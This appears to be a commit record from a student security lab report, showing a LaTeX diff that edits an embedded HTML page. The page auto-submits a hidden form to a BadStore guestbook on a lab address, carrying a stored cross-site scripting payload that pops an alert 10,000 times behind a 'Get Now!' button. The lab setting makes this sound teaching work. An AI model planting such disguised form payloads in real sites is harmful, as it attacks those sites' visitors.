

Before and after one commit to LazyClutch/Lab1--Security, a LaTeX document (Lab1report.tex, which reads task2.tex): part of page 2 of 4, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Minor change

```diff
--- a/task2.tex
+++ b/task2.tex
@@ -26,7 +26,7 @@
 </head>
 <body>
 	<FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
-		<INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert();}</script>" SIZE=30>
+		<INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert('HHHH');}</script>" SIZE=30>
 		<INPUT TYPE=hidden NAME=email value="1" SIZE=40>
 		<TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
 		<INPUT TYPE=submit VALUE="Get Now!">
```
